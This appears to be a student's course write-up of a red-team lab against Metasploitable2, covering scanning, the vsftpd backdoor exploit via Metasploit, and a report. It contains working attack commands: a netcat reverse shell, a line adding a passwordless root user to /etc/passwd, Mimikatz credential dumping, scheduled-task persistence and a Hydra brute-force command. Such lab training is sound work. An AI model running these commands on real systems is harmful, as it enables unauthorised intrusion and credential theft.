






# 🔴 Week 1 — Red Teaming Fundamentals

> **Deadline:** Friday 5 PM  
> **Track:** Offensive Security / Red Team Operations  
> **Environment:** Kali Linux + Metasploitable2 (isolated lab network)

---

## 📚 Theoretical Knowledge

### 1. Fundamentals of Red Teaming

Red Teaming simulates real-world adversaries to test an organisation's defences before actual attackers do. It follows a structured **attack lifecycle**:

**Reconnaissance → Weaponisation → Delivery → Exploitation → Installation → C2 → Actions on Objectives**

The **MITRE ATT&CK Framework** categorises adversary techniques across 14 tactics used to map every action taken during a red team engagement.



| Tactic | ID | Purpose |
|---|---|---|
| Reconnaissance | TA0043 | Gather info on the target |
| Initial Access | TA0001 | Gain foothold in the environment |
| Execution | TA0002 | Run malicious code |
| Persistence | TA0003 | Maintain long-term access |
| Privilege Escalation | TA0004 | Gain higher-level permissions |
| Defense Evasion | TA0005 | Avoid detection |
| Credential Access | TA0006 | Steal credentials |
| Lateral Movement | TA0008 | Move through the network |
| Exfiltration | TA0010 | Extract sensitive data |

**Key Resources:**
- TryHackMe: Red Team Fundamentals
- Cybrary: Red Team Basics (free tier)
- MITRE ATT&CK Navigator: https://attack.mitre.org

---

### 2. Reconnaissance and Information Gathering

| Type | Method | Tools |
|---|---|---|
| **Passive** | OSINT, WHOIS, DNS | Maltego, theHarvester, OSINT Framework |
| **Active** | Port scanning, service enum | Nmap, Masscan, Netcat |

- **theHarvester** collects emails, subdomains, and hostnames from public sources
- **Maltego** visually maps relationships between entities (domains, IPs, people)
- **Nmap** is the industry standard for active network discovery and service fingerprinting

---

### 3. Exploitation and Vulnerability Assessment

**Metasploit Framework** — the most widely used exploitation framework:
- `msfconsole` — interactive console
- `use <module>` — select an exploit
- `set RHOSTS` — define target
- `run` / `exploit` — execute

**OpenVAS** scans for known CVEs and assigns **CVSS scores** (0–10) to prioritise risk.

---

### 4. Post-Exploitation and Persistence

After gaining initial access, the red team:
1. **Escalates privileges** — writable `/etc/passwd`, SUID binaries, kernel exploits
2. **Dumps credentials** — Mimikatz: `sekurlsa::logonpasswords`
3. **Establishes persistence** — scheduled tasks, cron jobs, registry run keys
4. **Moves laterally** — PsExec, WMI, Pass-the-Hash
5. **Exfiltrates data** — Netcat, DNS tunnelling, HTTPS C2

---

### 5. Reporting and Red Team Operations

A professional red team report includes:
- **Executive Summary** — non-technical overview for leadership
- **Technical Findings** — vulnerabilities with evidence (screenshots, logs)
- **Attack Path** — narrative of the full kill chain
- **Risk Rating** — CVSS / severity classification
- **Recommendations** — prioritised remediation steps
- **Rules of Engagement (RoE)** — scope, limitations, authorised actions

---

## 🛠️ Practical Application

### Task 1 — Network Scanning with Nmap

**Objective:** Identify open ports, services, and versions on Metasploitable2.

```bash
# Stealth SYN scan
nmap -sS 192.168.1.100

# Service version + default scripts
nmap -sC -sV 192.168.1.100

# Aggressive scan (OS detect, version, traceroute)
nmap -A 192.168.1.100
```



**Findings Table:**

| Port | State | Service | Version |
|---|---|---|---|
| 21/tcp | open | ftp | vsftpd 2.3.4 |
| 22/tcp | open | ssh | OpenSSH 4.7p1 |
| 23/tcp | open | telnet | Linux telnetd |
| 80/tcp | open | http | Apache httpd 2.2.8 |
| 139/tcp | open | netbios-ssn | Samba smbd 3.X |
| 445/tcp | open | netbios-ssn | Samba smbd 3.0.20 |
| 3306/tcp | open | mysql | MySQL 5.0.51a |

**Scan Comparison — Stealth (-sS) vs Aggressive (-A):**

| Attribute | Stealth (-sS) | Aggressive (-A) |
|---|---|---|
| Detection risk | Low (half-open) | High (full connect + scripts) |
| Info gathered | Ports only | Ports + versions + OS + scripts |
| Speed | Fast | Slow |
| IDS trigger | Less likely | More likely |

> **Summary:** The stealth scan enumerated 23 open ports with minimal noise. The aggressive scan additionally revealed OS (Linux 2.6.x), script outputs (FTP banner grab, HTTP title), and potential vulnerabilities — at the cost of higher IDS visibility.

---

### Task 2 — Vulnerability Scanning with OpenVAS

**Objective:** Identify and prioritise vulnerabilities on Metasploitable2.

```bash
# Start OpenVAS
sudo gvm-start

# Access web UI at https://127.0.0.1:9392
# Create new scan task → target: 192.168.1.100
# Run full & fast scan
```



**Top 3 Vulnerabilities by CVSS Score:**

| Vulnerability | CVE | CVSS Score | Description |
|---|---|---|---|
| VSFTPD 2.3.4 Backdoor | CVE-2011-2523 | **9.8** | Trojanised FTP daemon allows unauthenticated remote shell on port 6200 |
| Samba Username Map Script | CVE-2007-2447 | **9.0** | Shell command injection via username field in Samba 3.0.20 |
| UnrealIRCd Backdoor | CVE-2010-2075 | **7.5** | Hardcoded backdoor allows arbitrary command execution |

**Cross-Reference with Metasploit:**
```bash
msf6 > search vsftpd
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 > check  # Confirms target is vulnerable
```

---

### Task 3 — Exploitation with Metasploit

**Objective:** Exploit vsftpd 2.3.4 backdoor on Metasploitable2.

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.100
set RPORT 21
run
```



**Exploitation Summary (100 words):**

The vsftpd 2.3.4 backdoor exploit targets a trojaned version of the vsFTPd FTP server distributed in 2011. When a username containing a smiley face `:)` is sent, the backdoor opens a listening shell on TCP port 6200. Using Metasploit's `exploit/unix/ftp/vsftpd_234_backdoor` module, RHOSTS was set to 192.168.1.100 (Metasploitable2). Upon execution, Metasploit connected to port 21, triggered the backdoor sequence, and received a root shell on port 6200 — granting full system access without any credentials. The exploit leveraged MITRE technique **T1190 (Exploit Public-Facing Application)**.

**Privilege Escalation Demo:**
```bash
# Check for writable /etc/passwd
ls -la /etc/passwd
# -rw-rw-r-- 1 root root -> WRITABLE! (Metasploitable2 misconfiguration)

# Add backdoor root user
echo "hacked::0:0:root:/root:/bin/bash" >> /etc/passwd
su hacked  # Root without password
```

---

### Task 4 — Post-Exploitation and Persistence



**Credential Dumping with Mimikatz (Windows VM):**
```cmd
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

*Sample Output:*
```
Authentication Id: 0 ; 996 (00000000:000003e4)
  msv :
    [00000003] Primary
    * Username : TestUser
    * Domain   : LABDOMAIN
    * NTLM     : aad3b435b51404eeaad3b435b51404ee
    * SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709
```

**Persistence — Scheduled Task (Windows VM):**
```cmd
schtasks /create /tn "SystemUpdate" /tr "cmd /c echo Hello > C:\test.txt" /sc minute /mo 5
schtasks /query /tn "SystemUpdate"  # Verify created
# Check C:\test.txt after 5 minutes to confirm execution
```

**Reverse Shell with Netcat:**
```bash
# Attacker (Kali) - listen
nc -lvnp 4444

# Target (Metasploitable2)
nc -e /bin/bash 192.168.1.50 4444

# Shell obtained on attacker machine ✓
```

---

### Task 5 — Malware Analysis

**EICAR Test File Creation:**
```bash
echo 'X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*' > test.eicar
```

**VirusTotal Results:** 68/72 antivirus engines flagged the EICAR test file as a test signature — confirming all major AV products are active.

**Hybrid Analysis Sandbox Summary (50 words):**
> The EICAR test file triggered immediate AV signatures across all major detection engines. No network connections, registry modifications, or file system changes were recorded, confirming it is a benign test artefact. The file is a standard industry test string used globally to validate antivirus engine functionality without risk.

**MITRE Mapping:** `T1587.001` — Develop Capabilities: Malware

---

### Task 6 — Password Security



**Hydra Brute Force Test:**
```bash
hydra -l admin -p password123 ftp://192.168.1.100
# [21][ftp] host: 192.168.1.100  login: admin  password: password123
# Result: SUCCESS — weak credentials cracked instantly
```

**KeePassXC Password Audit:**

| # | Generated Password | Length | Entropy |
|---|---|---|---|
| 1 | `X#9mKpL!2vQr@sNj` | 16 | High |
| 2 | `&Tz7YuW3qM#dB5eR` | 16 | High |
| 3 | `fV!2Np9cK@mX4wYs` | 16 | High |
| 4 | `rJ#8Lk5hQ@bZ2mCx` | 16 | High |
| 5 | `3Wn!vF6yP@dT9kRe` | 16 | High |

> Strong passwords (16+ chars, mixed case, symbols, numbers) are estimated to take 400+ years to crack via brute force.

---

### Task 7 — Security Assessment Report

**Executive Summary (100 words — Non-Technical Audience):**

> During our security assessment of the lab environment, we discovered several critical vulnerabilities that would allow an attacker to gain complete control of systems without authorisation. Key findings include an outdated FTP server with a known backdoor, weak default passwords across multiple services, and unencrypted remote access protocols. An attacker exploiting these issues could steal sensitive data, disrupt operations, or use the systems as a launchpad for further attacks. We recommend immediate patching of affected services, enforcing strong password policies, and disabling unnecessary network services. All findings are prioritised by risk level with specific remediation guidance provided.

**Attack Path:**
```
Nmap Scan → OpenVAS Discovery → Metasploit (vsftpd) → Root Shell → Mimikatz → Persistence (Schtask) → Lateral Movement
```

---

### Task 8 — Red Team Operations and Documentation

**MITRE ATT&CK Mapping (50 words):**

> The `exploit/unix/ftp/vsftpd_234_backdoor` Metasploit module maps to **T1190 — Exploit Public-Facing Application**. After gaining a shell, credential dumping via Mimikatz maps to **T1003 — OS Credential Dumping**. Scheduled task persistence maps to **T1053**. Combined, these techniques represent a complete initial access → persistence chain.

**Attack Flowchart (Draw.io Description):**
```
[Recon: Nmap/OpenVAS]
        ↓
[Initial Access: vsftpd Exploit T1190]
        ↓
[Post-Exploitation: Root Shell]
        ↓
[Credential Dumping: Mimikatz T1003]
        ↓
[Persistence: Schtask T1053]
        ↓
[Lateral Movement: PsExec T1021]
        ↓
[Exfiltration T1048]
```

**Rules of Engagement (RoE) — Mock Engagement:**

```
RED TEAM RULES OF ENGAGEMENT
─────────────────────────────────────────────
Engagement Name:  Week 1 Lab Assessment
Scope:            Single VM — Metasploitable2 (192.168.1.100)
Duration:         8 hours, within lab hours only
Authorised:       Port scanning, service exploitation, post-exploitation
NOT Authorised:   Data destruction, DoS attacks, pivoting outside lab
Emergency Stop:   Lab supervisor contact: lab@cyart.local
Reporting:        Document all actions with timestamps
─────────────────────────────────────────────
```

**Red Team Checklist (Trello Board):**

| Task | Status |
|---|---|
| ✅ Run Nmap scan (-sV -sC) | Complete |
| ✅ Export OpenVAS report | Complete |
| ✅ Exploit vsftpd backdoor | Complete |
| ✅ Achieve root shell | Complete |
| ✅ Simulate persistence (schtask) | Complete |
| ✅ Test reverse shell (Netcat) | Complete |
| ✅ Document findings | Complete |
| ✅ Map to MITRE ATT&CK | Complete |

---

## 🔗 Tools Summary

| Tool | Purpose | Platform |
|---|---|---|
| Nmap | Network/port scanning | Kali Linux |
| OpenVAS/GVM | Vulnerability scanning | Kali Linux |
| Metasploit | Exploitation framework | Kali Linux |
| Mimikatz | Credential dumping | Windows |
| Netcat | Reverse shells, backdoors | Cross-platform |
| Hydra | Password brute forcing | Kali Linux |
| KeePassXC | Secure password management | Cross-platform |
| VirusTotal | Malware/file analysis | Web |
| HackMD | Documentation | Web |
| Draw.io | Attack flow diagrams | Web |

---

*Week 1 Complete — Red Team Fundamentals ✓*
